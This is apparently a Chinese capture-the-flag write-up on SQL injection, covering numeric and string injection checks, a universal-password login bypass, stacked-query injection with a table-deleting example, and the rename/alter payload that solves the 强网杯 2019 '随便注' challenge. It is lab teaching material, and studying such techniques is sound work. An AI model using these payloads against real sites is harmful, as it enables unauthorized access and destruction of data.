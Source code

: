1. 数字型

`and 1=1 回显正常`<br />`and 1=2 返回异常，存在数字型注入可能`

2. 字符型

`1 返回正常`<br />`1' 返回异常，存在字符型注入可能`<br />经过测试，发现username和password两个参数都可以分别注入和同时注入<br />构造payload<br />`url?usename=1'&password=1'`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/7d0767444f2b823b4b8c07b0842ee0fc.png)<br />回显报错，存在SQL字符型注入<br />**小试一下万能密码注入**<br />构造payload<br />`url?usename=1' or '1'='1&password=1' or '1'='1`<br />**回显flag**<br />![image.png](https://img-blog.csdnimg.cn/img_convert/96a05c2bed4b5c56ada42435312f2915.png)<br />![](https://img-blog.csdnimg.cn/img_convert/89b6bbcff21af785dca29bef90aee7d0.jpeg)
<a name="W7krD"></a>
## 字符型注入和堆叠查询手法原理
**堆叠注入原理**
> 在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为：（因未对输入的参数进行过滤）Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
> 参考：https://blog.csdn.net/qq_26406447/article/details/90643951

<a name="WKK4H"></a>
### 【例题】buuctf[强网杯 2019]随便注 1
<a name="evxPg"></a>
#### **第一种解法 堆叠注入**
网页环境<br />![image.png](https://img-blog.csdnimg.cn/img_convert/434cfacea88d014f556ac56fdbb36d36.png)<br />判断是否是字符型注入<br />`1'`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/2e8bc28f595dbd11974934fa20cfa369.png)<br />判断是否存在关键字过滤<br />`select`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/2c4f19b88e0523022badbf2d4d7d92ec.png)<br />联合查询被过滤，只能用堆叠注入了<br />查看有几个字段<br />`1' order by 2#`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/e3ca73027a6fe25e7ae0afa4bda848c9.png)<br />正常回显<br />`1' order by 3#`![image.png](https://img-blog.csdnimg.cn/img_convert/895055b725e189d42fe79ffc45702f31.png)<br />回显报错，可以看出只有两个字段<br />查看所有数据库<br />`1'; show databases;`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/823d4fa00155a99b585dde3cf3cef82e.png)<br />查看所有数据表<br />`1'; show tables;`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/b56eead234c1e36df2c5049451dec8a1.png)<br />爆words数据表的字段<br />`1';show columns from words;#`![image.png](https://img-blog.csdnimg.cn/img_convert/72352caabc7e406ed88ce07fb607b3c5.png)<br />爆1919810931114514数据表字段（注意数据表为数字的时候需要用反引号括起来）<br />`1';show columns from `1919810931114514`;#`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/014d47d3f850c8e809957090e00fb188.png)<br />可以看到这两个表words表有两个字段，而另一个只有一个字段<br />后台SQL查询语句应该是：<br />`select * from words where id=`<br />所以说只能先查询id字段，然而另一个表只有一个flag字段是肯定爆不了flag的，并且类型为varchar字符串类型，而恰巧words数据表里面的data也是varchar类型，因此从这里就可以得到做题思路，通过rename函数进行改表，把`1919810931114514`改为words，增加新字段id，将flag改为data，将刚开始那个words表改为其他任意表。<br />构造payload：<br />`1';rename table words to BaiMao;rename table `1919810931114514` to words;alter table words add id int unsigned not NULL auto_increment primary key;alter table words change flag data varchar(100);#`
> rename修改表名
> alter修改已知的列
> add增加
> int整数类型
> unsigned无符号类型
> **not null**- 指示某列不能存储 NULL 值。
> **primary key** - NOT NULL 和 UNIQUE 的结合。指定主键，确保某列（或多个列的结合）有唯一标识，每个表有且只有一个主键。
> **auto_increment**-自动赋值，默认从1开始。
